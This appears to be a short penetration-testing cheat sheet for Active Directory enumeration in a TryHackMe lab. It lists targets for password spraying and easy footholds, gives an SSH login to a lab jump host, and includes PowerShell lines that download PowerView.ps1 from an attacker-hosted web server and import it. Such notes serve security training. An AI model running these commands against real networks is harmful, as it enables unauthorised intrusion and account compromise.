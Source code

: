 ### Key Data points
| **Data Point**                  | **Description**                                                                                                                 |
| ------------------------------- | ------------------------------------------------------------------------------------------------------------------------------- |
| `AD Users`                      | enumerate valid user accounts we can target for password spraying.                                                              |
| `AD Joined Computers`           | Key Computers include Domain Controllers, file servers, SQL servers, web servers, Exchange mail servers, database servers, etc. |
| `Key Services`                  | Kerberos, NetBIOS, LDAP, DNS                                                                                                    |
| `Vulnerable Hosts and Services` | Anything that can be a quick win. ( a.k.a an easy host to exploit and gain a foothold)                                          |

### SSH AD
```
ssh za.tryhackme.com\\<AD Username>@thmjmp1.za.tryhackme.com
```
### PowerView Download and Import Module
``` powershell
#host webserver in kali where powerview.ps1 is /Are/Pentest/powerview
#And download from powershell
Invoke-WebRequest http://<IP>:<PORT>/PowerView.ps1 -OutFile PowerView.ps1
#Import module
. .\PowerView.ps1
```